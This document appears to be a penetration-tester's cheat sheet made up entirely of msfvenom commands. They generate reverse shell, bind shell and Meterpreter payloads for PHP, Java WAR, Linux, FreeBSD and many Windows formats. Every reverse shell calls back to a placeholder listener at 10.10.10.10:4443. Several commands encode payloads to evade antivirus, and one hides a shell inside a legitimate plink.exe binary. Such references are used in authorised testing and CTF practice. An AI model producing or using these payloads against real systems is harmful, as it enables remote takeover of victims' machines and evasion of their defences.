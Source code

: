 ### PHP reverse shell  

```sql
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
```

### Java WAR reverse shell 

```sql
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war
```

### Linux bind shell  

```sql
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai
```

### Linux FreeBSD reverse shell  

```sql
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf
```

### Linux C reverse shell  

```sql
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c
```

### Windows non staged reverse shell  

```sql
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe
```

### Windows Staged (Meterpreter) reverse shell  

```sql
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe
```

### Windows Python reverse shell  

```sql
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py
```

### Windows ASP reverse shell  

```sql
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp
```

### Windows ASPX reverse shell

```sql
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
```

### Windows JavaScript reverse shell with nops  

```sql
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18
```

### Windows Powershell reverse shell  

```sql
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1
```

### Windows reverse shell excluding bad characters  

```sql
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai
```

### Windows x64 bit reverse shell  

```sql
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe
```

### Windows reverse shell embedded into plink  

```sql
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```